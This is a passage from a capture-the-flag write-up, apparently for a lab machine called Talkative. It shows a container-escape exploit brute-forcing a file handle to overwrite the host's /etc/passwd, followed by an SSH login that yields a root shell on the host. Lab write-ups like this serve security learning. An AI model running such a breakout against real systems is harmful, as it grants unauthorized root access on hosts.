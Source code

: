 

I'll run the exploit:



    root@c150397ccd63:~# ./sw /etc/passwd passwd
    ...[snip]...
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (passwd) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Got a final handle!
    [*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
    Success!!



It reports success. If it did, I can SSH as oxdf and get a shell as
root. It works:



    saul@talkative:/dev/shm$ ssh oxdf@127.0.0.1
    oxdf@127.0.0.1's password: 
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    ...[snip]...
    root@talkative:~#







